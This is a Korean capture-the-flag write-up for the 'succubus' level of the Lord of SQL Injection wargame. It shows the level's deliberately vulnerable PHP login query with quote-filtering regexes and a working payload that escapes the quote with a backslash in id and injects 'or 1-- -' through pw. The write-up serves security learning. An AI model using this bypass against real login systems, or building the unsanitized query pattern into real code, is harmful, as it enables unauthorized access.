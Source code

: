 # **Succubus**
## 1. 문제의도
MySQL 에서 이스케이프 문자(역슬래시 달린거)를 어떻게 처리하는 지 아시나요?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id]))
      exit("No Hack ~_~");

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
      exit("No Hack ~_~");

    if(preg_match('/\'/i', $_GET[id]))
      exit("HeHe");

    if(preg_match('/\'/i', $_GET[pw]))
      exit("HeHe");

    $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id'])
      solve("succubus");

    highlight_file(__FILE__);
  ?>
```
----

### 1. 통과 조건

이번에도 그냥 단순히 id만 유도하면 된다. (단순 참 유도)

----
## 3. Solution

이번에는 preg_match 를 통해서 싱글쿼터를 필터링 하고 있다.  
그래서 ereg 와는 다른 방식으로, MySQL의 이스케이프 문자 처리를 이용할 필요가 있다.  

### My Answers :

id 에 \ 를 넣어서 id='' 에서 뒤의 싱글쿼터를 일반 문자로 취급하게 하여서 그 뒤에 것들도 문자열로 만들어 준다. 그래서 이대로 삽입해 보면 해당 쿼리는 다음과 같이 바뀐다.

```SQL
select id from prob_succubus where id='\' and pw='or 1-- - '
```

' and pw=' 가 하나의 문자열이 되어 버리므로 pw는 이제 싱글 쿼터로 부터 자유로워 진다!!  

id GET parameter : \
pw GET parameter : or 1 -- -

클리어~!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
